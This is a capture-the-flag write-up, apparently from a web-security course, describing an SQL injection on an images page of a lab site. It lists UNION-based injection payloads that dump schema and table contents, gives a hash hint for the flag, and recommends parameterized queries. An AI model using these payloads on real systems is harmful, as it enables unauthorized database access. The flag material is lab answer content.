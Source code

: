 # SQL Injection

## Location

```
http://ip/?page=images
```
## Breach
in the input we tried the value 1 or 1=1  to check if there is an sql injection possibiltie and we got the table dumped,
so we tried to look more into it by getting some database information using the next query
```
1337 or 1=1 UNION select table_name, column_name FROM information_schema.columns
```
after multiple queries combinations with the next query we succeeded to get some useful dinstructions to get our flag
```
1337 or 1=1 union select comment, title FROM list_images
```
If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

## Solution

the best approach is controlling and vetting user input to watch for attack patterns. 
use Parametrized queries or an database orm.